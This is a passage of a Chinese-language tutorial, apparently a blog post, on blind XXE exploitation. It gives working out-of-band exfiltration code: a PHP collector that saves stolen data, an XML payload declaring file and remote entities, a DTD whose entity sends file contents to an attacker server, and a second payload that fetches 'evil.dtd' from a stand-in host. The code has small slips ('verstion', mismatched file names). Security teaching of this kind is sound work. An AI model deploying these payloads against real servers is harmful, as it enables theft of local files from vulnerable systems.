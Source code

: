 ![](https://img-blog.csdnimg.cn/20210314145351346.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
#### 无回显：

如果程序没有回显的情况下，该怎么读取文件内容呢？需要使用`blind xxe`漏洞去利用

##### blind 1:
没有回显则可以使用Blind XXE漏洞来构建一条`带外`信道提取数据。

创建test.php写入以下内容：
```php
<?php 
file_put_contents("test.txt", $_GET['file']) ; 
?>
```

创建index.php写入以下内容：
```php
<?php 
$xml=<<<EOF 
<?xml version="1.0"?> 
<!DOCTYPE ANY[ 
<!ENTITY % file SYSTEM "file:///C:/test.txt"> 
<!ENTITY % remote SYSTEM "http://localhost/test.xml"> 
%remote;
%all;
%send; 
]> 
EOF; 
$data = simplexml_load_string($xml) ; 
echo "<pre>" ; 
print_r($data) ; 
?>
```

创建test.xml并写入以下内容：
```xml
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://localhost/test.php?file=%file;'>">
```

当访问http://localhost/index.php, 存在漏洞的服务器会读出text.txt内容，发送给攻击者服务器上的test.php，然后把读取的数据保存到本地的test.txt中。

##### blind 2:

可以将文件内容发送到远程服务器，然后读取。

```xml
<?xml verstion="1.0" encoding="utf-8"?>
<!DOCTYPE a[
        <!ENTITY % f SYSTEM "http://yourhost/evil.dtd">
        %f;
]>
<a>&b;</a>
$data = simplexml_load_string($xml);
print_r($data);
```
